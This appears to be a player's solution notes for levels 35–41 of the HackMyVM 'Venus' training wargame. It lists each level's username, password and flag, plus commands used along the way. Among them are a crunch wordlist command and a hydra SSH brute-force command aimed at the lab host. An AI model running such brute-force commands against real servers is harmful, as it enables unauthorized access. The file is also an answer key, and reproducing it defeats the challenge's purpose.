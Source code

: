 # 35
```
gloria
v7xUVE2e5bjUcxw

crunch 15 15 -t v7xUVE2e5bjUc@@ -o gloriapass.txt

hydra -l gloria -P gloriapass.txt ssh://venus.hackmyvm.eu:5000  -f -t 64
```
8===RZIkEtaEp18tLslTopJj===D~~

# 36 
```
alora
mhrTFCoxGoqUxtw
8===NSe78N2lM7IbvHzvrC0G===D~~
```

# 37
julie
sjDf4i2MSNgSvOv

 mount -o loop music.iso /root/hackdata/hackmyvm/venus/tmp

 # 38
irene
8VeRLEFkBpe2DSD

# 39
adela
nbhlQyKuaXGojHx
8===86XGXQefUeV2eEdrUzxx===D~~
 openssl rsautl -decrypt -inkey id_rsa.pem -in pass.enc -out pass

# 40
sky
papaparadise
8===8T2IE4fNIvbs8sh1lnew===D~~

# 41
sarah
LWOHeRgmIxg7fuS
8===nLCR949OMr4pLhMepKCM===D~~

